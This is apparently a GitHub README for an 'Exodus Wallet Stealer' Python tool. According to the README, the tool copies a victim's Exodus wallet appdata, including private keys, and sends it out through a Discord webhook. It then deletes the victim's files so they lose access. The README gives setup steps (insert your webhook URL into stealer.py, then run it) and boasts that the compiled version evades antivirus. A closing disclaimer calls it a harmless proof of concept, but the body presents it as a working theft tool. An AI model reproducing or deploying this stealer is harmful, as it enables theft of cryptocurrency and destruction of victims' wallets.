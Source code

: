 # Exodus Wallet Stealer

Working Exodus Wallet Stealer to steal Exodus wallets, private keys, public keys and crypto in general, the stealer downloads a backup of the exodus appdata and then sends it to you via a discord webhook, once you recieve the webhook message the files are deleted so the wallet can no longer be accessed by the user, you can then download the files and drag and drop them into your appdata and reload your exodus.

After doing this you will have full access to all there stuff including private keys, you could then send and recieve crypto through that account.

The program once compiled properly is not detected by Anti-Virus at all and this makes it very dangerous malware.

I have created an interesting post about this Malware on my website were we go over how to install and prevent it.

https://www.katsu.bio/posts/oLWGiZkBqjC6BpZz

## Video
https://user-images.githubusercontent.com/122122838/228079770-cb0463dc-4afe-4e29-89d5-148389b54730.mp4

## Setup
Download the project files then follow the instructions below.

Open `stealer.py` and change this line:
```bash
Discord_Webhook_Client.send_file("WEBHOOK")
```
Remove **WEBHOOK** and add your Discord webhook URL.
    
## Run the program
You can run the stealer by doing the following command:
```bash
python stealer.py
OR 
python3 stealer.py
```

I recommend that you compile this if you wanted to actually use it and this is what cybercrimals would do however I am not gonna show how you can do this as this project is just a proof of concept and supposed to help fight against malware not make it spread more.

## NOTE:
This program is made to show how malware might work in a way that is safe for the user to run on their machine without causing any damages. I do not condone the spread or compilation of harmful malware, and have not shown how to compile it properly. This is simply a proof of concept.
